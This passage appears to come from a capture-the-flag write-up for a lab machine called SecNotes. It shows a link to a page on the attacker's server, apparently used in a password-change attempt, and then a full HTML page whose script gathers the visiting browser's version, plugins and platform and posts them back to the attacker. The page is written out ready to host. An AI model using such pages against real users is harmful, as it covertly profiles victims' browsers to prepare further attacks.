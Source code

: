 ```
http://10.10.14.25/bubba.html
```

![web5](./secnotes/web5.png)

This generates a request but the password did not change? Try fingerprinting the user browser:

```html
<!-- save at /var/www/html/finger.html -->
<html>
  <head>
    <title>Blank Page</title>
  </head>
  <body>
    <p>logged</p>
    <script>
      var xhr = new XMLHttpRequest();
      xhr.open("POST", "/finger.php");
      xhr.setRequestHeader("Content-Type", "application/txt");
      var txt = "";
      txt += "Browser CodeName: " + navigator.appCodeName + "\n";
      txt += "Browser Name: " + navigator.appName + "\n";
      txt += "Browser Version: " + navigator.appVersion + "\n";
      txt += "Cookies Enabled: " + navigator.cookieEnabled + "\n";
      txt += "Browser Language: " + navigator.language + "\n";
      txt += "Browser Online: " + navigator.onLine + "\n";
      txt += "Platform: " + navigator.platform + "\n";
      txt += "User-agent header: " + navigator.userAgent + "\n";
      txt += "Total plugin installed: " + navigator.plugins.length + "\n";
      txt += "Available plugins: \n";
      for (var i = 0; i < navigator.plugins.length; i++) {
        txt += "- ";
        if (navigator.plugins[i].name) {
          txt += (navigator.plugins[i].name + " | ");
        }
        if (navigator.plugins[i].filename) {
          txt += (navigator.plugins[i].filename + " | ");
        }
        if (navigator.plugins[i].description) {
          txt += (navigator.plugins[i].description + " | ");
        }
        if (navigator.plugins[i].version) {
          txt += (navigator.plugins[i].version + " | ");
        }
        txt += "\n";
      }
      xhr.send(txt);
    </script>
  </body>
</html>
```
